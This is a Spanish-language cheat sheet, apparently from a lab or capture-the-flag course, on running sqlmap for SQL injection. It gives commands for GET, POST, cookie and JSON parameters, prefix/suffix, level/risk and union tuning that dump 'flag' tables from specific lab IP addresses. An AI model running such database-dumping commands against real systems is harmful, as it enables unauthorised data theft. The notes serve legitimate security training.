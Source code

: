# SQL Map

## Instalar

```bash
sudo apt install sqlmap
```

## Inyecciones comunes

```
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch

-u      especificar el objetivo
--batch no preguntar
```

- Basico

```
sqlmap -u http://157.245.35.236:32257/case1.php\?id\=1 --batch --dump --dbms=MySQL
```

- POST 
```bash
sqlmap -u http://157.245.35.236:32257/case2.php -data 'id=1'  --batch --dump --dbms=MySQL

sqlmap -u http://157.245.35.236:32257/case2.php -data 'id=1'  --batch  --dbms=MySQL -D testdb -T flag2 --dump
```

- Cookie / GET

```
sqlmap -u http://157.245.35.236:32257/case3.php -p id --cookie "id=2; PHPSESSID=sq59lp200emije25tvumh95db5" --dbms="MySQL" --batch --dump --level 2

sqlmap -u http://157.245.35.236:32257/case3.php -p id --cookie "id=2; PHPSESSID=sq59lp200emije25tvumh95db5" --dbms="MySQL" --batch --dump --level 2 -D testdb -T flag3 
```

- Json / POST

```bash
sqlmap -u http://157.245.35.236:30819/case4.php --data='{"id":1}'  --dbms="MySQL" --dump -D testdb -T flag4 -level 1 --batch
```

## Inyecciones a punto

### Listar tampers

```
sqlmap --list-tampers
```
### Prefix/Suffix

```
--prefix  --suffix

sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
sqlmap -u http://138.68.145.250:30427/case6.php\?col\=id --batch --dump -T flag6 --prefix='`)' 
```

### Level / Risk

```
--level     1 a 5 extiende tanto los vectores como los bordes a usar 
--risk      1 a 3 extiende el uso de vectores baso en el riesgo de causar dos

sqlmap -u www.example.com/?id=1 -v 3
sqlmap -u www.example.com/?id=1 -v 3 --level=5
sqlmap -u www.example.com/?id=1 --level=5 --risk=3
```

### Advanced tunning 

## String

Si una cadena despecifica da resultados TRUE y su ausenca da FALSE se puede usar `--string` para fijar la detección

## Rechniques

Si queremos reducir la cantidad de payloadas a solo algunos tipos, podemos usar `--techniques`


## Union tunning

```
--union-cols

sqlmap -u http://138.68.145.250:30427/case7.php\?id\=1 --batch --dump --union-cols=5 -D testdb -T flag7
```

##  
